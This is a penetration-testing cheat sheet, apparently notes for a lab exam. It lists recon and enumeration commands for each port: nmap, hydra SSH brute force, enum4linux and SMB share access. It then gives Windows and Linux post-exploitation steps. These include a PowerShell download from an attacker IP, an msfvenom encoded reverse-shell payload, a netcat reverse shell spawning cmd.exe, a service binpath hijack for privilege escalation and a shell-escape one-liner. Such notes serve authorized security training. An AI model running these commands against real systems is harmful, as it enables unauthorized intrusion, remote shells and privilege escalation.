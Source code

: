 ##Initial Reconnaissance:
Main Nmap Scan: nmap -v -A -sS 10.11.1.X
Alternate Connect Scan: nmap -v -sT -p 0-10000 10.11.1.X

##Ports and Services:
#21: FTP
		
Methods and Tools:
Notes:
Service version research
Google / ExploitDB from nmap scan
netcat/telnet interaction
nc 10.11.1.X 21  Commands: https://www.serv-u.com/features/file-transfer-protocol-server-linux/commands 
Nmap NSE FTP scripts
nmap -v 10.11.1.X --script “ftp*”
dotdotpwn
dotdotpwn -h 10.11.1.X -m ftp

#22: SSH

Methods and Tools:
Notes:
Service version research
It’s almost never ssh, ExploitDB/Google 
hydra
Hydra -l user -P /usr/share/wordlists/rockyou.gz 10.11.1.X SSH


#25: SMTP

Methods and Tools:
Notes: 
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “smtp*”
smtp-user-enum
smtp-user-enum -u username -U usernamelist.txt -t 10.11.1.X


#53: DNS
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “dns*”
DNSenum
dnsenum URL.com


#80/443/8080: HTTP/HTTPS

Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “http*”
Dirbuster
GUI, /usr/share/wordlists/dirbuster
nikto
Nikto -h 10.11.1.X
Burpsuite
Webproxy, set up for Iceweasel
Curl
Data transfer, not as useful
Cadaver/davtest
Useful for webDAV stuff, more specific
Wpscan
Only for wordpress


#110: POP3
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “pop*”
Netcat/telnet interaction
nc 10.11.1.X 110





#135: RPC
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “rpc*”
enum4linux
enum4linux 10.11.1.X
rpcclient
rpcclient -U “” 10.11.1.X for null session

	
#139: NETBIOS
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
nbtscan
nbtscan -v 10.11.1.X
enum4linux
enum4linux 10.11.1.X


#445: SMB
	
Methods and Tools:
Notes:
Service version research
ExploitDB/Google
Nmap NSE scripts
nmap -v 10.11.1.X --script “smb*”
enum4linux
enum4linux 10.11.1.X
smbclient
smbclient "//10.11.1.128/wwwroot" - Connects to smb shares mapped with enum4linux
smbmap
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
nbtscan
nbtscan -v 10.11.1.X






##Windows Post-Exploitation
	
General Toolkit
Method and Tools:
Notes and Links: 
Powershell File Download
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.243/test.txt','C:\test.txt)”
General File Transfer
https://blog.ropnop.com/transferring-files-from-kali-to-windows/ 
Mingw Compiling for Windows
i686-w64-mingw32-g++ -o evil.exe 37098.txt -lws2_32
Dos2unix (Gets rid of /bin/sh^5 error)
dos2unix <filename> 
Payload Encoding (On Kali) 
msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.243 LPORT=1777 -f exe -o rever.exe -e x86/shikata_ga_nai -k
Windows netcat reverse shell
nc.exe 192.168.100.113 4444 –e cmd.exe


#Privilege Escalation
	
Method and Tools:
Notes and Links:
General Guide
http://www.fuzzysecurity.com/tutorials/16.html 
Accesschk.exe
https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk 
Windows Enum
https://github.com/azmatt/windowsEnum 
WinExpSugg
https://github.com/GDSSecurity/Windows-Exploit-Suggester 
WinPrivChk
https://github.com/pentestmonkey/windows-privesc-check 
Service Privesc
sc config SSDPSRV start= “auto”
net start SSDPSRV
net start UPNPHOST
sc config upnphost binpath= “C:\shell.exe”
sc config upnphost obj= “.\LocalSystem” password= “”
net start upnphost



##Linux Post-Exploitation

General Toolkit:
Method and Tools:
Notes and Links:
Shell Cheatsheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 
Shell Escape
python -c 'import pty; pty.spawn("/bin/sh")'  
File Transfer
https://www.pks.mpg.de/~mueller/docs/suse10.2/html/opensuse-manual_en/manual/sec.filetrans.copy.html 
Exploit/multi/handler
Set payload
Set LPORT
Set LHOST
Set EXITFUNC


#Privilege Escalation:

Method and Tools:
Notes and Links:
General Guide
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
Exploit Suggester
https://github.com/mzet-/linux-exploit-suggester 
LinEnum*
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh 
Unix Privesc Check
https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/master/upc.sh 
LinPrivChecker
https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

	
	
	

